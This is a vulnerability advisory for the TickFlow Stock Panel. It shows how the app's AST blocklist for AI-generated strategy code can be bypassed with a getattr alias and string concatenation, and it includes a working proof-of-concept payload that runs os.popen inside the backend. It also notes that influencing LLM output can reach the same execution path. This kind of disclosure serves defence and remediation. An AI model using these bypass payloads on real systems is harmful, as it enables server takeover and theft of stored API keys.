

# Static Safety-Check Bypass in AI Strategy Code Pipeline Leads to Remote Code Execution in TickFlow Stock Panel

| Field | Value |
|---|---|
| Project | [shy3130/tick-stock-panel](https://github.com/shy3130/tick-stock-panel) |
| Vulnerability Type | Improper Input Validation / Sandbox Bypass leading to Code Injection (CWE-94, CWE-693) |
| Severity | High — CVSS 3.1 Base Score: 8.8 |
| CVSS Vector | `AV:N/AC:L/PR:L/UI:N/S:U/C:H/I:H/A:H` |
| Affected Versions | <= 0.3.6 (verified on 0.3.6, latest release as of 2026-10-14; commit `68368ac`) |
| Authentication | Panel session (single-user login) |

---

## Summary

TickFlow Stock Panel executes user- and AI-generated strategy code inside the backend main process (`StrategyEngine._load_file` → `spec.loader.exec_module`). The only barrier between untrusted code and that sink is an AST-level static blocklist, `AIStrategyGenerator._validate_safety`. That check can be bypassed completely with a plain `getattr` alias and string concatenation: assigning `g = getattr` does not create a `Call` node, and the subscript check only inspects constant strings. A payload built this way contains no `import` outside the whitelist, no blocklisted direct call, and no dunder `Attribute` node, passes validation, is written to `data/strategies/`, and executes immediately when `engine.reload()` imports the module — arbitrary command execution with the privileges of the backend process.

## Details

`backend/app/strategy/ai_generator.py` (0.3.6, lines 372–415) builds three blocklists and walks the AST:

```python
forbidden_calls = {
    "open", "exec", "eval", "compile", "__import__",
    "globals", "locals", "vars", "dir", "getattr",
    "setattr", "delattr", "type", "input", "breakpoint",
} - extra_allowed_calls
...
for node in ast.walk(tree):
    ...
    if isinstance(node, ast.Call):
        if isinstance(node.func, ast.Name) and node.func.id in forbidden_calls:   # only direct Name calls
            raise ValueError(...)          # "calling <name>() is forbidden" (message in Chinese)
    if isinstance(node, ast.Attribute) and node.attr in forbidden_dunder_attrs:  # only Attribute nodes
        raise ValueError(...)
    if isinstance(node, ast.Subscript):
        sl = node.slice
        if isinstance(sl, ast.Constant) and isinstance(sl.value, str) \
                and sl.value in forbidden_subscript_strs:                    # only 3 constant strings
            raise ValueError(...)
```

Three structural gaps make the filter bypassable:

1. **Alias calls are invisible.** `g = getattr` is a bare name assignment (no `Call` node); later `g(obj, name)` has `node.func.id == "g"`, which is not in the blocklist.
2. **Dunder access via `getattr`/subscript strings is invisible.** `forbidden_dunder_attrs` only matches `ast.Attribute` nodes, so the dunder name passed as a *string argument* is never inspected.
3. **Concatenated subscript keys are invisible.** `"__imp" + "ort__"` is a `BinOp`, not an `ast.Constant`, so `__builtins__["__imp" + "ort__"]` slips past the subscript check.

The bypassed module is then executed in-process by `backend/app/strategy/engine.py:419`:

```python
spec.loader.exec_module(mod)
```

The save path applies the same check twice (`backend/app/api/strategy.py:780` and `engine.py:387/392`) — but it is the same function, so both gates fall to the same payload. The project's own comment above the validator concedes the design risk (translated from Chinese): "an AST blocklist is not a real sandbox … real isolation requires running strategies in a restricted subprocess".

## PoC

Verified on a locally running backend, release 0.3.6 (source tarball, commit `68368ac`), started with `uvicorn app.main:app` and a session created via `POST /api/auth/login`. All requests below use plain HTTP.

**Step 1: negative controls — the blocklist itself works**

`POST /api/strategies/code/save` with a payload that calls `getattr` directly is rejected:

```
HTTP 400 {"detail":"<server message: calling getattr() is forbidden>"}
```

A literal `__builtins__["__import__"]` subscript is also rejected:

```
HTTP 400 {"detail":"<server message: subscript access to __import__ is forbidden>"}
```

**Step 2: bypass payload (no blocklisted construct anywhere)**

```python
import datetime

g = getattr
s = "__imp" + "ort__"
imp = __builtins__[s]
os_mod = imp("os")
os_mod.popen("(id; uname -srm; hostname) > /tmp/TICK_RCE_PROOF.txt 2>&1").read()

def filter(df):
    return df

META = {"id": "custom_poc_rce", "name": "poc", "description": "poc", "scoring": {"close": 1.0}}
```

```bash
python3 poc_rce.py    # urllib client: login → POST /api/strategies/code/save
```

```json
{"ok":true,"strategy_id":"custom_poc_rce","source":"custom",
 "path":"/tmp/tick_data/strategies/custom/custom_poc_rce.py", ...}    → HTTP 200
```

**Step 3: confirm execution**

```bash
cat /tmp/TICK_RCE_PROOF.txt
```
```
uid=501(0xgenesi) gid=20(staff) groups=20(staff),...
Darwin 27.0.0 arm64
Mac-Mini.local
```

**Real-environment reproduction** (the product itself, run for this test): the PoC client above was executed in a local terminal against the packaged backend of release 0.3.6. Both negative controls were rejected by the validator (`HTTP 400`), proving the blocklist is active; the alias/concatenation payload was accepted (`HTTP 200`), the strategy file was written under `data/strategies/custom/`, `engine.reload()` imported it, and the marker file containing `id`, `uname`, and `hostname` output appeared — the payload ran inside the backend process.



---

## Impact

Any holder of a panel session (or an attacker who can influence LLM output through the AI strategy generation endpoints `/api/strategies/ai/generate` / `/ai/iterate`, which run the same generate → save → reload → execute loop) achieves arbitrary command execution as the backend process user. On the documented Docker deployment that user is root inside the container. The backend holds `data/user_data/secrets.json` (AI/TickFlow API keys), `api_tokens.json`, and `auth.json`, so full secret disclosure and complete server takeover follow directly.

### Remediation

1. Execute strategy code in an isolated, least-privileged subprocess (separate process, no network, minimal filesystem view, resource limits) instead of `exec_module` in the backend main process — the project already identifies this as a P0 item.
2. Replace the blocklist with a strict allowlist semantics: reject any reference to, or call of, a name that is not explicitly allowed, track alias assignments, and reject non-constant subscript keys and string concatenation in sensitive positions.
3. Block the known bypass vectors immediately: any reference to `getattr`/`vars`/`globals`/`locals`/`exec`/`eval`/`compile`/`__import__` (including as assignment right-hand sides), and extend the subscript-string check to arbitrary dunder strings, not only three.
4. Add regression tests containing the alias, concatenation, and `vars()` payloads used here (and variants such as `().__class__.__base__.__subclasses__()` traversal) to the validation test suite.
